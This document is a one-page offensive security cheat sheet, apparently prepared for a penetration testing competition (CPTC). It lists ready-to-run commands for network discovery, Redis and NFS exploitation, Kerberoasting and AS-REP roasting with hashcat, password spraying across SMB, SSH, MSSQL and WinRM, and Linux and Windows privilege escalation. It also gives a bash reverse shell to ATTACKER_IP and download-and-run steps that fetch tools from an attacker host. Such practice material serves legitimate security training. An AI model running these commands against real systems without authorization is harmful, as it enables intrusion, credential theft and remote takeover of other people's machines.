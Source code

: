 # CPTC Quick Reference - One Page Cheatsheet

## Launch Everything

```bash
# Network discovery
nmap -sn 10.10.10.0/24 -oG - | grep Up | cut -d' ' -f2 > targets.txt

# Start AutoRecon (background)
autorecon -t targets.txt -o ~/results/ &

# Quick wins check
sudo nmap -sU -p161 --open -iL targets.txt  # SNMP
nmap -p6379 --open -iL targets.txt           # Redis  
nmap -p2049,111 --open -iL targets.txt       # NFS
```

## High-Frequency Quick Wins

| Service | Command | Time | Impact |
|---------|---------|------|--------|
| SNMP | `snmpwalk -v2c -c public TARGET \| grep password` | 5min | Credentials |
| Redis | `redis-cli -h TARGET ping` → SSH key injection | 2min | Root |
| NFS | `showmount -e TARGET` → Mount /home | 10min | SSH keys |
| MySQL | `mysql -h TARGET -u root` | 3min | Database |
| SMB Signing | `netexec smb DC_IP --gen-relay-list relay.txt` | 15min | Domain Admin |

## Active Directory (With Domain Creds)

```bash
# All in one (10 minutes):
netexec smb DC_IP --gen-relay-list relay.txt && \
impacket-GetNPUsers DOMAIN/USER:PASS -dc-ip DC_IP -request -o asrep.txt && \
impacket-GetUserSPNs DOMAIN/USER:PASS -dc-ip DC_IP -request -o kerberoast.txt && \
bloodhound-python -u USER -p 'PASS' -d DOMAIN -ns DC_IP -c All --zip && \
hashcat -m 18200 asrep.txt /usr/share/wordlists/rockyou.txt & \
hashcat -m 13100 kerberoast.txt /usr/share/wordlists/rockyou.txt &
```

## Web Application Tests

```bash
# Quick enum (5 min):
curl http://TARGET/.git/config; curl http://TARGET/.env
gobuster dir -u http://TARGET -w /usr/share/wordlists/dirb/common.txt -x php,txt -t 50

# SQL injection test:
curl "http://TARGET/page.php?id=1'"  # Error message?
```

## Credential Testing

```bash
# Test password EVERYWHERE (critical!):
PASS="FoundPassword123!"
netexec smb 10.10.10.0/24 -u admin -p "$PASS" && \
netexec ssh 10.10.10.0/24 -u admin -p "$PASS" && \
netexec mssql 10.10.10.0/24 -u sa -p "$PASS" && \
netexec winrm 10.10.10.0/24 -u administrator -p "$PASS"
```

## Linux Privilege Escalation

```bash
sudo -l  # Check FIRST!
id  # Docker/LXD group?
find / -perm -4000 -type f 2>/dev/null  # SUID
wget http://ATTACKER_IP/linpeas.sh && chmod +x linpeas.sh && ./linpeas.sh
```

## Windows Privilege Escalation

```powershell
whoami /priv  # SeImpersonate?
.\PrintSpoofer.exe -i -c cmd  # Instant SYSTEM

# Check AlwaysInstallElevated:
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

## Shells & Listeners

```bash
# Listener
rlwrap nc -lvnp 4444

# Bash reverse shell
bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'

# Stabilize
python3 -c 'import pty;pty.spawn("/bin/bash")'
# Ctrl+Z, then: stty raw -echo; fg
```

## File Transfer

```bash
# Serve (Kali)
python3 -m http.server 80

# Download (Linux)
wget http://ATTACKER_IP/file

# Download (Windows)
certutil -urlcache -f http://ATTACKER_IP/file.exe file.exe
```

## Priority Order

1. SNMP/Redis/NFS (instant wins)
2. Default credentials everywhere
3. AD attacks (if domain)
4. Web SQLi/file upload
5. Privesc on shells
6. Deep dives (if time)

## Port → Tool Map

```
22   SSH    → hydra, keys
80   HTTP   → gobuster, Burp
139  SMB    → netexec, enum4linux
161  SNMP   → snmpwalk -c public
389  LDAP   → ldapsearch
445  SMB    → netexec
1433 MSSQL  → mssqlclient
2049 NFS    → showmount
3306 MySQL  → mysql -u root
3389 RDP    → netexec rdp
5985 WinRM  → evil-winrm
6379 Redis  → redis-cli
```

## Useful Sites

GTFOBins: https://gtfobins.github.io/
LOLBAS: https://lolbas-project.github.io/
PayloadsAllTheThings: https://github.com/swisskyrepo/PayloadsAllTheThings
RevShells: https://www.revshells.com/
CyberChef: https://gchq.github.io/CyberChef/
CrackStation: https://crackstation.net/
